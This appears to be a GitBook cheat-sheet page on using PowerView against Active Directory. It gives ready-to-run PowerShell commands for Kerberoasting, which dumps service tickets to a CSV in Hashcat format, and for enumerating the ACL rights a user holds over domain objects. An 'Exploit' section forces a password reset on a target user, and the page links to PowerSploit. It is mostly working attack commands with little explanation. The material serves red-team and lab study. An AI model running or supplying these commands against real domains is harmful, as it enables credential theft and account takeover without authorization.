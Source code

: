 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerView

## Enumeration

### Check for Kerberoastable accounts

```powershell
Get-DomainUser * -SPN |Select samaccountname
```

Kerberoast

{% code overflow="wrap" %}
```powershell
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation
```
{% endcode %}

### Targeted ACL enumeration.

```powershell
# find user's SID
$sid = Convert-NameToSid <USER>
# search for all domain objects that the user has rights over
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? ($_.SecurityIdentifier -eq $sid)
```

The `ObjectAceType` fields tells us what ACE the user has over the object (Figure 1).

<figure><img src="../../../.gitbook/assets/pv_objectacetype.png" alt=""><figcaption><p>Figure 1: The ObjectAceType lets us know what ACE the user has over the object.</p></figcaption></figure>

In case the script cannot be used, we can use native cmdlets. To convert the GUID into a human-readable format we can either perform a reverse search as shown below, or just google the GUID.

{% code overflow="wrap" %}
```powershell
# make a list of all domain users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
# retrieve ACL information about the target user
foreach($line in [System.IO.File]::ReadLines("C:\Windows\Temp\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<DOMAIN>\\<USER>'}}
# convert GUID into a human-readable format
$guid= "00299570-246d-11d0-a768-00aa006e0529"
# reverse search to map the name to GUID
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```
{% endcode %}

## Exploit

### Change Password

{% code overflow="wrap" %}
```powershell
Set-DomainUserPassword -Identity <USER> -AccountPassword (ConvertTo-SecureString 'Password123!' -AsPlainText -Force ) -Verbose
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="PowerSploit" %}
{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1" %}
{% endtab %}
{% endtabs %}
